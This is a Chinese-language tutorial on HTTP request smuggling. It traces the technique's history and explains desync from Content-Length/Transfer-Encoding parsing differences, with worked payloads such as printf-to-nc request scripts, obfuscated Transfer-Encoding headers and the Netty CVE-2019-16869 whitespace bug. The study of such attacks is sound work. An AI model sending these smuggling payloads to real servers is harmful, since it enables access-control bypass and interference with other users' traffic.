



# 一篇文章带你读懂 HTTP Smuggling 攻击 - 先知社区

一篇文章带你读懂 HTTP Smuggling 攻击

- - -

在前些天研究的时候，恰巧 **mengchen@知道创宇404实验室** 也发表了[协议层的攻击——HTTP请求走私](https://paper.seebug.org/1048/)文章，也带给了自己更多的启示，师傅的文章写的非常的不错，墙裂建议阅读，这里我结合师傅的文章跟自己的一些理解进行一些整理，本文亦可理解为那篇文章的补充与更详细的描述。

整篇文章由于自己时间问题，前前后后拖了两个月左右，中间时间间隔可能比较久，所以文章会有比较多的疏漏，还请师傅们看后直接指出斧正。写作不易，还请师傅们多多担待。最近也一直在关注这方面的安全问题，欢迎一起学习讨论: ) 联系方式：emVkZHl1Lmx1QGdtYWlsLmNvbQ==

后续如果有新的总结发现也会发自己的[垃圾博客](https://blog.zeddyu.info/)或者先知（就看国际黑客陈师傅给不给过了）

# TL;NR

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191205171217.jpeg)

Pic from [https://twitter.com/SpiderSec/status/1200413390339887104?s=19](https://twitter.com/SpiderSec/status/1200413390339887104?s=19)

# TimeLine

在我们提 HTTP Smuggling 之前我们首先来看看其中的演变过程：

@Amit Klein 在 2004 年提出 [HTTP Response Splitting](https://dl.packetstormsecurity.net/papers/general/whitepaper_httpresponse.pdf) 技术，是 HTTP Smuggling 攻击的雏形。

关于 HTTP Smuggling 这种攻击方式在 2005 年已由 @Watchfire 首次提出 [HTTP Request Smuggling](https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf) 。

HTTP Parameter Pollution (HPP)，也就是 HTTP 参数污染，这其实也算是一种"特殊"的 HTTP Smuggling 攻击，在 2009 年由 @Stefano di Paola & @Luca Carettoni 在 OWASP Poland conference 上首次提出，一经提出就引起了比较大的轰动，被广泛运用在绕过 WAF 当中。

2016 年 Defcon 24 ，@regilero 提出了 [Hiding Wookiees In Http](http://xz.aliyun.com/t/[https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEF%20CON%2024%20-%20Regilero-Hiding-Wookiees-In-Http.pdf](https://media.defcon.org/DEF%20CON%2024/DEF%20CON%2024%20presentations/DEF%20CON%2024%20-%20Regilero-Hiding-Wookiees-In-Http.pdf))，进一步揭示了 HTTP Smuggling 这种攻击方式。

2019 年 Defcon 27， @James Kettle 提出了 [HTTP Desync Attacks: Smashing into the Cell Next Door](http://xz.aliyun.com/t/[https://media.defcon.org/DEF%20CON%2027/DEF%20CON%2027%20presentations/DEFCON-27-albinowax-HTTP-Desync-Attacks.pdf](https://media.defcon.org/DEF%20CON%2027/DEF%20CON%2027%20presentations/DEFCON-27-albinowax-HTTP-Desync-Attacks.pdf))，讲解了如何用 HTTP Smuggling 技术挖掘到了 Paypal 的漏洞。

# Causes

然而@James Kettle 的 PPT 里面也并没有非常详细细致地讲述这个攻击是什么，以及怎么形成的，当初自己看完还是抱着非常大的疑惑的，后来学习了 @regilero 博客中关于 [HTTP Smuggling 的文章](https://regilero.github.io/tag/Smuggling/)，我才有了清晰的认识。

## HTTP Connection Mod

> ​ 在`HTTP1.0`之前的协议设计中，客户端每进行一次HTTP请求，就需要同服务器建立一个TCP链接。而现代的Web网站页面是由多种资源组成的，我们要获取一个网页的内容，不仅要请求HTML文档，还有JS、CSS、图片等各种各样的资源，这样如果按照之前的协议设计，就会导致HTTP服务器的负载开销增大。于是在`HTTP1.1`中，增加了`Keep-Alive`和`Pipeline`这两个特性。

### Keep-Alive

根据 [RFC7230](https://tools.ietf.org/html/rfc7230#section-6) 我们可以知道

> ​ HTTP/1.1 defaults to the use of "persistent connections", allowing multiple requests and responses to be carried over a single connection. The "close" connection option is used to signal that a connection will not persist after the current request/response. HTTP implementations SHOULD support persistent connections.

在 HTTP/1.1 中默认使用`Keep-Alive`，从而允许在单个连接上承载多个请求和响应。

> 所谓`Keep-Alive`，就是在HTTP请求中增加一个特殊的请求头`Connection: Keep-Alive`，告诉服务器，接收完这次HTTP请求后，不要关闭TCP链接，后面对相同目标服务器的HTTP请求，重用这一个TCP链接，这样只需要进行一次TCP握手的过程，可以减少服务器的开销，节约资源，还能加快访问速度。当然，这个特性在`HTTP1.1`中是默认开启的。

当然，有些请求带着`Connection: close`的话，通信完成之后，服务器会中断 TCP 连接。

### Pipline

> 有了`Keep-Alive`之后，后续就有了`Pipeline`，在这里呢，客户端可以像流水线一样发送自己的HTTP请求，而不需要等待服务器的响应，服务器那边接收到请求后，需要遵循先入先出机制，将请求和响应严格对应起来，再将响应发送给客户端。
> 
> 现如今，浏览器默认是不启用`Pipeline`的，但是一般的服务器都提供了对`Pipleline`的支持。

在 HTTP/1.1 中比较重要的引入就是 pipeline 技术了，以下是使用以及不使用 piepeline 技术的对比图：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191017234109.png)

我们可以清晰地看到，使用了 pipeline 之后不必再需要等待前一个请求完成其响应再处理第二个请求了，这个有点异步处理的意思在里面。

## Message Body

[https://tools.ietf.org/html/rfc7230#section-3.3](https://tools.ietf.org/html/rfc7230#section-3.3)

### Transfer-Encoding

> ​ Transfer-Encoding is analogous to the Content-Transfer-Encoding field of MIME, which was designed to enable safe transport of binary data over a 7-bit transport service (\[RFC2045\], Section 6). However, safe transport has a different focus for an 8bit-clean transfer protocol. In HTTP's case, Transfer-Encoding is primarily intended to accurately delimit a dynamically generated payload and to distinguish payload encodings that are only applied for transport efficiency or security from those that are characteristics of the selected resource.

Transfer-Encoding 是一种被设计用来支持 7-bit 传输服务安全传输二进制数据的字段，有点类似于 MIME (Multipurpose Internet Mail Extensions) Header 中的 Content-Transfer-Encoding 。在HTTP的情况下，Transfer-Encoding 的主要用来以指定的编码形式编码 payload body 安全地传输给用户。在 HTTP/1.1 中引入，在 HTTP/2 中取消。

[MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Transfer-Encoding) 列举了几种属性：

```plain
chunked | compress | deflate | gzip | identity
```

我们这里主要关注 chunked 这一种传输编码方式，它在网络攻击中也不是第一次提及了，之前就有师傅利用这个字段去绕过一些 WAF，可以参考 [利用分块传输吊打所有WAF](https://www.freebuf.com/articles/web/194351.html)，也是比较有意思的 bypass 技巧。

我们可以在[RFC7230](https://tools.ietf.org/html/rfc7230#section-4.1)中查看到有关分块传输的定义规范。

> 4.1. Chunked Transfer Coding
> 
> The chunked transfer coding wraps the payload body in order to  
> transfer it as a series of chunks, each with its own size indicator,  
> followed by an OPTIONAL trailer containing header fields. Chunked  
> enables content streams of unknown size to be transferred as a  
> sequence of length-delimited buffers, which enables the sender to  
> retain connection persistence and the recipient to know when it has  
> received the entire message.
> 
> ```plain
> chunked-body   = *chunk
>                   last-chunk
>                   trailer-part
>                   CRLF
> ```
> 
>   
> chunk = chunk-size \[ chunk-ext \] CRLF  
> chunk-data CRLF  
> chunk-size = 1*HEXDIG  
> last-chunk = 1*("0") \[ chunk-ext \] CRLF  
>   
> chunk-data = 1\*OCTET ; a sequence of chunk-size octets
> 
> The chunk-size field is a string of hex digits indicating the size of  
> the chunk-data in octets. The chunked transfer coding is complete  
> when a chunk with a chunk-size of zero is received, possibly followed  
> by a trailer, and finally terminated by an empty line.
> 
> A recipient MUST be able to parse and decode the chunked transfer  
> coding.
> 
> 4.1.1. Chunk Extensions
> 
> The chunked encoding allows each chunk to include zero or more chunk  
> extensions, immediately following the chunk-size, for the sake of  
> supplying per-chunk metadata (such as a signature or hash),  
> mid-message control information, or randomization of message body  
> size.
> 
> ```plain
> chunk-ext      = *( ";" chunk-ext-name [ "=" chunk-ext-val ] )
> ```
> 
>   
> chunk-ext-name = token  
> chunk-ext-val = token / quoted-string
> 
> The chunked encoding is specific to each connection and is likely to  
> be removed or recoded by each recipient (including intermediaries)  
> before any higher-level application would have a chance to inspect  
> the extensions. Hence, use of chunk extensions is generally limited
> 
> to specialized HTTP services such as "long polling" (where client and  
> server can have shared expectations regarding the use of chunk  
> extensions) or for padding within an end-to-end secured connection.
> 
> A recipient MUST ignore unrecognized chunk extensions. A server  
> ought to limit the total length of chunk extensions received in a  
> request to an amount reasonable for the services provided, in the  
> same way that it applies length limitations and timeouts for other  
> parts of a message, and generate an appropriate 4xx (Client Error)  
> response if that amount is exceeded.

这里如果你不想看的太仔细，我们只需要了解它是怎么一种结构就行了，这里也可以参考 [Wiki: Chunked transfer encoding](https://en.wikipedia.org/wiki/Chunked_transfer_encoding) ，比如说我们如果要使用 chunked 发送以下消息

```plain
Wikipedia in\r\n\r\nchunks.
```

我们可以这么去发送：

```plain
POSTT /xxx HTTP/1.1
Host: xxx
Content-Type: text/plain 
Transfer-Encoding: chunked

4\r\n
Wiki\r\n
5\r\n
pedia\r\n
e\r\n
 in\r\n\r\nchunks.\r\n
0\r\n
\r\n
```

这里做个简单解释，**我们使用`\r\n`表示 CRLF ，所以这里的`\r\n`是两个字节**；第一个数字 4 表示的是接下来会有 4 个字节的数据，也就是 Wiki 这 4 个字母，然后按照 RFC 文档标准，字母 Wiki 部分后面需要跟`\r\n`表示 chunk-data 部分，数字 4 后面需要跟`\r\n`表示 chunk-size 部分，而且这个数字是个十六进制数，比如第三个数据，

```plain
e\r\n
in\r\n\r\nchunks.\r\n
```

这里第一个存在空格，数据当中的`\r\n`算两个字符，最后一个`\r\n`表示数据结束，这样的话，第一个空格 1 个字节 + in 2个字节 + 2 个 `\r\n` 算 4 个字节 + chunks. 7个字节 = 14 个字节，十六进制表示 14 也就是 e 。

最后一个`0\r\n\r\n`表示 chunk 部分结束。

## Background

本身这些东西是没有什么危害的，都是通过各种方式提高网络传输速率，但是在一些特殊的情况下就会出现了一些相应的安全问题。

> ​ 为了提升用户的浏览速度，提高使用体验，减轻服务器的负担，很多网站都用上了CDN加速服务，最简单的加速服务，就是在源站的前面加上一个具有缓存功能的反向代理服务器，用户在请求某些静态资源时，直接从代理服务器中就可以获取到，不用再从源站所在服务器获取。这就有了一个很典型的拓扑结构。

这里引用 @mengchen 师傅发的图：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191205171057.png)

一般来说，反向代理与后端服务器不会使用 pipeline 技术，甚至也不会去使用 Keep-Alive ，更多时候反向代理采取的措施是重用 TCP 链接，因为对于反向代理与后端服务器来说，反向代理服务器与后端服务器 IP 相对固定，不同用户的请求通过代理服务器与后端服务器建立链接，将这两者之间的 TCP 链接进行重用，也就顺理成章了。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130132520.png)

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130132258.png)

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130132605.png)

> ​ 当我们向代理服务器发送一个比较模糊的HTTP请求时，由于两者服务器的实现方式不同，可能代理服务器认为这是一个HTTP请求，然后将其转发给了后端的源站服务器，但源站服务器经过解析处理后，只认为其中的一部分为正常请求，剩下的那一部分，就算是走私的请求，当该部分对正常用户的请求造成了影响之后，就实现了HTTP走私攻击。

HTTP Smuggling 攻击正是基于反向代理与后端服务器对于 HTTP 请求解析处理不一致，利用这种差异性我们可以在一个 HTTP 请求中 “嵌入” 另一个 HTTP 请求，以达到我们“走私”请求的目的，直接表现为我们可以访问内网服务，或者造成一些其他的攻击。

## Attack Method

既然是基于解析差异，那我们会有什么解析差异呢？场景仍然是上述构架的场景，只不过我们简化一下，把后端服务器固定为一台，就不存在某些概率的情况了。也就是说，架构类似于如下示意图：

```plain
User            Front           Backend
|               |               |
|------A------->|               | 
|               |-------A------>| 
|               |<-A(200)-------|
|<-A(200)-------|               |
```

我们知道 Content-Length 与 Transfer-Encoding 均可以作为 POST 数据传输时处理 body 的方式，为了方便阅读以及码字，我们对字段处理优先规则有以下简写规则：

-   CL-TE 代表 Front 以 Content-Length 优先处理，Backend 以 Transfer-Encoding 优先处理
-   TE-CL 代表 Front 以 Transfer-Encoding 优先处理，Backend 以 Content-Length 优先处理

并且 Front 代表的是反向代理等典型的前端服务器，Backend 代表的是处理请求的后端业务服务器，以下均由`\r\n`代替 CRLF，长度为两个字节。

### Chunks Priority On Content-Length

有些同学可能看到这跟我会有同样的疑惑，对于 CL & TE 解析优先级顺序的问题难道 RFC 文档没有做出规范化嘛？有当然是有的，见 [RFC 7230 Message Body Length](https://tools.ietf.org/html/rfc7230#section-3.3.3)

> ​ If a message is received with both a Transfer-Encoding and a Content-Length header field, the Transfer-Encoding overrides the Content-Length. Such a message might indicate an attempt to perform request smuggling (Section 9.5) or response splitting (Section 9.4) and ought to be handled as an error. A sender MUST remove the received Content-Length field prior to forwarding such a message downstream.

虽然这里是指出了 TL 优先于 CL ，但是我们仍然可以通过一些方式绕过，又或者说，那个中间件的也没有依照这个 RFC 标准规范实现，这就导致了差异性的存在。

例如我们使用以下代码来发送 HTTP 请求：

```plain
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-length:56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

以上正确的解析应该是解析成三个请求：

```plain
GET / HTTP/1.1
Host:localhost
Content-length:56
Transfer-Encoding: chunked
Dummy:Header

0
```

```plain
GET /tmp HTTP/1.1
Host:localhost
Dummy:Header
```

```plain
GET /tests HTTP/1.1
Host:localhost
Dummy:Header
```

而如果存在 TE & CL 优先级问题的话，会被解析成两个请求：

```plain
GET / HTTP/1.1[CRLF]
Host:localhost[CRLF]
Content-length:56[CRLF]
Transfer-Encoding: chunked[CRLF] (ignored and removed, hopefully)
Dummy:Header[CRLF]
[CRLF]
0[CRLF]  (start of 56 bytes of body)
[CRLF]
GET /tmp HTTP/1.1[CRLF]
Host:localhost[CRLF]
Dummy:Header[CRLF] (end of 56 bytes of body, not parsed)
```

```plain
GET /tests HTTP/1.1
Host:localhost
Dummy:Header
```

### Bad Chunked Transmission

根据 [RFC7230 section 3.3.3](https://tools.ietf.org/html/rfc7230#section-3.3.3) ：

> If a Transfer-Encoding header field is present in a request and the chunked transfer coding is not the final encoding, the message body length cannot be determined reliably; the server MUST respond with the 400 (Bad Request) status code and then close the connection.

也就是说当接受到`Transfer-Encoding: chunked, zorg`的时候，应该返回 400 错误。

这类可以有很多绕过，比如：

```plain
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked

Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

GET / HTTP/1.1
 Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
 : chunked
```

### Null In Headers

在一些用 C 写的中间件服务器当中比较容易产生这个问题，因为`\0`代表字符串结束标志，当用在 header 里面，如果我们用`\0`就可能让中间件出现一些不正常的解析。

比如说：

```plain
# 2 responses instead of 3 (2nd query is wipped out by pound, used as a body)
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Content-\0dummy: foo\r\n'\
'length: 56\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

有些中间件处理以上的请求时，当遇到`\0`的时候会继续换行读取，这样也会导致产生解析差异。

### CRLF

根据 [RFC7320 section-3.5](https://tools.ietf.org/html/rfc7230#section-3.5):

> Although the line terminator for the start-line and header fields is the sequence CRLF, a recipient MAY recognize a single LF as a line terminator and ignore any preceding CR.

也就是说除了 CRLF 我们还可以用 LF 作为 EOL，但是在 Node.js < 5.6.0 的版本，对于 CRLF 的处理也是比较有趣的：

```plain
[CR] + ? == [CR][LF]        //true
```

假设我们有一个正常解析 CRLF 的 Front 服务器，后端是有该漏洞的 Node.js 服务，我们可以发送以下请求：

```plain
GET / HTTP/1.1\r\n
Host:localhost\r\n
Dummy: Header\rZTransfer-Encoding: chunked\r\n
Content-length: 52\r\n
\r\n
0\r\n
\r\n
GET /tmp HTTP/1.1\r\n
Host:localhost\r\n
Dummy:Header\r\n
```

Front 服务器就会认为`Dummy: Header\rZTransfer-Encoding: chunked\r\n`是一个 header ，使用 CL 头解析，会认为这是一个完整的请求，而 Node.js 会认为`\rZ`是一个换行，按照 TE 优先于 CL 的解析规则，认为这是两个请求，就产生了解析差异。

### Size Issue

还可以利用一些编码块长度产生解析差异，例如：

```plain
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

某些中间件在解析块大小的时候，会将长度块大小长度进行截断，比如这里表现为只取`'0000000000000000000000000000042`为`00000000000000000`，这样就会认为这是两个请求了，第一个请求的块大小为0，第二个就会请求`/tmp`，就导致了 HTTP Smuggling。

### HTTP Version

这个主要是由于 HTTP/0.9 引起的问题，我们先来看看 HTTP 几个版本的 example ：

HTTP v1.1

```plain
GET /foo HTTP/1.1\r\n
Host: example.com\r\n
```

HTTP v1.0

```plain
GET /foo HTTP/1.0\r\n
\r\n
```

HTTP v0.9

```plain
GET /foo\r\n
```

并且 HTTP/0.9 请求包与响应包是都没有 headers 的概念的，也就是说如下：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130142331.png)

因为 HTTP/0.9 响应包没有 headers 的特性，在 HTTP Smuggling 中利用起来也就特别的有意思了。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130143300.png)

这张图的意思就是我们在 HTTP Smuggling 的时候使用 HTTP/0.9 进行 Smuggle ，这并不是 HTTP/0.9 标准的格式，但是由于一些中间件已经不支持直接解析 HTTP/0.9 的标准格式了，但是还可能存在解析这种指定 HTTP version 的情况。于是就可能存在以下这种情况：

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130143557.png)

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130143626.png)

上面两个图展现了一个大致的攻击流程，chewy2.jpg 当中的 24-33664 字节有着一个完整的 HTTP 响应报文，当 Golang 在处理 HTTP/0.9 的时候，由于我们指定了`Range: bytes=24-33664`，就是我们可以指定获取响应报文的 24-33664 个字节，也就是获取了我们存放在图片当中的 HTTP 报文，然后返回给 Golang ，Golang 对于 HTTP/0.9 再进行标准化去头的处理，这样响应看起来就是一个新的响应了。

[](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191130153851.png)

当一个正常用户去请求的时候，如果 Apache 重新使用了 TCP/IP 链接，就会将我们构造在图片当中的 HTTP 报文当作响应包返回给用户。这也是一个很典型的 HTTP Response Splitting 的思路。具体可以看看视频演示 [HTTP Smuggling Examples 2016](https://www.youtube.com/watch?v=lY_Mf2Fv7kI)

### Has a CL in GET

这个场景其实就是在 GET 请求中使用了 body ，并以 Content-Length 指出了 body 的长度。

> ​ 其实在这里，影响到的并不仅仅是GET请求，所有不携带请求体的HTTP请求都有可能受此影响，只因为GET比较典型，我们把它作为一个例子。

在 [RFC7230 Content-Length](https://tools.ietf.org/html/rfc7230#section-3.3.2) 部分提到：

> ​ For example, a Content-Length header field is normally sent in a POST request even when the value is 0 (indicating an empty payload body). A user agent SHOULD NOT send a Content-Length header field when the request message does not contain a payload body and the method semantics do not anticipate such a body.

在最新的 [RFC7231 4.3.1 GET](https://tools.ietf.org/html/rfc7231#section-4.3.1) 中也仅仅提了一句：

> ​ A payload within a GET request message has no defined semantics; sending a payload body on a GET request might cause some existing implementations to reject the request.

对于类似拥有 body 字段并且以 Content-Length 指出其 body 长度的请求，RFC 并没有严格的说明 Server 应该如何去处理，所以大部分中间件对于拥有 body 的 GET 请求也是进行了宽松处理，但是也是部分情况，由于这些中间件没有一个严格的标准依据，所以也会产生解析差异导致 HTTP Smuggling 攻击。

这里我们举个简单且理想化的例子，Front 服务器对于 GET 请求允许携带 body ，而 Backend 服务器会忽略带 body 的 GET 请求。

当我们发送如下请求：

```plain
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 41\r\n
\r\n
GET /secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

当 Front 服务器处理这个请求的时候，会把以上这个请求当作一个完整的请求转发给 Backend 服务器，而 Backend 服务求在处理这个服务器的时候，会把这个请求当作两个请求

```plain
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 41\r\n
\r\n
```

```plain
GET /secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

这样我们就可以成功地进行了一次 HTTP Smuggling，从这个例子当中，我们也不难看出，如果有一个场景存在 HTTP Smuggling 漏洞，那么这个 Content-Length 数据就变得额外的重要，因为这影响到我们攻击是否成功，能否将我们的 HTTP 请求成功地“嵌入”在一个 HTTP 请求当中。

这里的计算方法与之前的类似，

```plain
GET /secret HTTP/1.1\r\n                    -->     "GET /secret HTTP/1.1" 一共20个字符，加上CRLF一共22个字符
Host: example.com\r\n                                   -->     "Host: example.com" 一共17个字符，加上CRLF一共19个字符
```

22 + 19 = 41 个字节

### Two Identical Fields - CL

这里我们以 Content-Length 举例，在 [RFC7230 section 3.3.2](https://tools.ietf.org/html/rfc7230#section-3.3.2) 中，

> If a message is received that has multiple Content-Length header fields with field-values consisting of the same decimal value, or a single Content-Length header field with a field value containing a list of identical decimal values (e.g., "Content-Length: 42, 42"), indicating that duplicate Content-Length header fields have been generated or combined by an upstream message processor, then the recipient MUST either reject the message as invalid or replace the duplicated field-values with a single valid Content-Length field containing that decimal value prior to determining the message body length or forwarding the message.

And [RFC 7230 section 3.3.3](https://tools.ietf.org/html/rfc7230#section-3.3.3) 中也提到：

> If a message is received without Transfer-Encoding and with either multiple Content-Length header fields having differing field-values or a single Content-Length header field having an invalid value, then the message framing is invalid and the recipient MUST treat it as an unrecoverable error. If this is a request message, the server MUST respond with a 400 (Bad Request) status code and then close the connection.

RFC 当中对于这中情况也有了比较明确的规范，但是我们这里假设举一个比较简单的例子，我们发送以下请求：

```plain
GET /suzann.html HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 0\r\n
Content-Length: 46\r\n
\r\n
GET /walter.html HTTP/1.1\r\n
Host: example.com\r\n
\r\n
```

在这里，我们假设 Front 服务器以第二个 Content-Length 为解析标准，抛弃第一个 Content-Length 字段或者对第一个不做任何处理或者 anything else ，反正假设它只处理第二个 Content-Length 字段；我们在假设 Backend服务器以第一个 Content-Length 字段为解析标准，不理会第二个。

这样就相当于我们在 HTTP 请求中注入了另一个 HTTP 请求，如果整个场景像我们上述这样，就存在 HTTP Smuggling 攻击。

如过服务器以第一个 Content-Length 为解析标准，这样解析就会出现两个 HTTP 请求，如果以第二个作为解析标准，则会认为只有一个 HTTP 请求。

### Optional WhiteSpace

RFC7320 中对于 header 字段有这样的描述：

> 3.2. Header Fields
> 
> Each header field consists of a case-insensitive field name followed  
> by a colon (":"), optional leading whitespace, the field value, and  
> optional trailing whitespace.
> 
> header-field = field-name ":" OWS field-value OWS
> 
> ```plain
> field-name     = token
>  field-value    = *( field-content / obs-fold )
>  field-content  = field-vchar [ 1*( SP / HTAB ) field-vchar ]
>  field-vchar    = VCHAR / obs-text
> ```
> 
>   
> obs-fold = CRLF 1\*( SP / HTAB )  
> ; obsolete line folding  
> ; see Section 3.2.4
> 
> The field-name token labels the corresponding field-value as having  
> the semantics defined by that header field. For example, the Date  
> header field is defined in Section 7.1.1.2 of \[RFC7231\] as containing  
> the origination timestamp for the message in which it appears.

尤其是开头的一句话表明，字段后面应该紧跟`:`冒号，然后是 OWS(Optional WhiteSpace) 可选的空格，然后再是字段值，最后是 OWS 可选空格。

这个会存在什么问题呢？很明显，如果有中间件对于这个的实现并没有严格遵循 RFC 标准的话，也会产生 HTTP Smuggling 攻击。

比较典型的例子就是 CVE-2019-16869 ，这枚 CVE 是 OPPO 子午互联网安全实验室发掘的，是关于 Netty 中间件存在 HTTP Smuggling 漏洞。

在 Netty 4.1.42.Final 版本之前对于 Header 头的处理是使用 [splitHeader](https://github.com/netty/netty/blob/netty-4.1.41.Final/codec-http/src/main/java/io/netty/handler/codec/http/HttpObjectDecoder.java) 方法，其中关键代码如下：

```plain
for (nameEnd = nameStart; nameEnd < length; nameEnd ++) {
  char ch = sb.charAt(nameEnd);
  if (ch == ':' || Character.isWhitespace(ch)) {
    break;
  }
}
```

其他的代码我们并不需要过多了解，这里我们可以知道这里将空格与`:`冒号同样处理了，也就是如果存在空格会把`:`其之前的 field name 正常处理，并不会抛出错误或者进行其他操作。这样就与 RFC 标准的规范不一致了，于是就会产生解析差异。

@Bi3g0 构建了比较清晰的漏洞原理图：

[](https://user-images.githubusercontent.com/18691823/65211134-3e03cd00-dad0-11e9-94a5-b9f04ea18f38.png)

这里用的例子是采用 ELB 作为 Front 服务器，Netty 作为 Backend 服务器进行举例，我们发送如下请求：

```plain
POST /getusers HTTP/1.1
Host: www.backend.com
Content-Length: 64
Transfer-Encoding : chunked

0

GET /hacker HTTP/1.1
Host: www.hacker.com
hacker: hacker
```

ELB 会将 Transfer-Encoding 字段忽略，因为它与冒号中间有一个空格，不符合 RFC 标准，会使用 Content-Length 作为解析标准，于是会认为以上请求是一个完整的请求，继而扔给 Backend 服务器，也就是 Netty ，Netty 在这里会优先解析 Transfer-Encoding ，即使这个字段不符合 RFC 标准，但是因为它的实现方式不严格，所以这里因为优先解析 Transfer-Encoding 的原因，它会将这个请求拆分为两个请求：

```plain
POST /getusers HTTP/1.1
Host: www.backend.com
Content-Length: 64
Transfer-Encoding : chunked

0
```

```plain
GET /hacker HTTP/1.1
Host: www.hacker.com
hacker: hacker
```

这样就造成了 HTTP Smuggling 攻击。

Netty 于 4.1.42 Final 版本修复了这个漏洞：[Correctly handle whitespaces in HTTP header names as defined by RFC72…](https://github.com/netty/netty/pull/9585)

